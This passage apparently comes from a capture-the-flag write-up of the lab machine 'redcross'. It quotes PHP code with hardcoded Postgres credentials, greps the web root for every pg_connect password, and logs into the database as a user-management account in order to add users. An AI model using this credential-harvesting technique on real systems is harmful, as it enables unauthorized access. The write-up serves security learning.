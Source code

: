 
I’m particularly interested in the code that adds users:

    
    
    ...[snip]...
    if($action==='adduser'){                                                                                   
            $username=$_POST['username'];                                             
            $passw=generateRandomString();                       
            $phash=crypt($passw);                   
            $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
            $result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");                                                                          
            $result = pg_execute($dbconn, "q1", array($username, $phash));
            echo "Provide this credentials to the user:<br><br>";
            echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
    }    
    ...[snip]...
    

That code contains the username and password of a postgres user that can add
users to this system. That will be useful.

#### Postgresql

Postgres is a bit different if you are used to mysql or mssql. [This
link](https://gist.github.com/Kartones/dd3ff5ec5ea238d4c546) is a great cheat
sheet of commands to use (it took me a while to find `\q` to exit).

Since I can see the php code adding users to this database, this must be where
access for these temporary users is controlled, as opposed to the typical
`/etc/passwd` and `/etc/shadow`.

There are multiple sets of creds for the db in this site code:

    
    
    www-data@redcross:~/html$ grep -r pg_connect .
    ./admin/pages/firewall.php:     $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
    ./admin/pages/users.php:        $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
    

I’m interested in unixusrmgr because it can add users. I can connect like
this:

    
    
    www-data@redcross:/$ psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
    Password for user unixusrmgr: 
    psql (9.6.7)
    SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
    Type "help" for help.
    
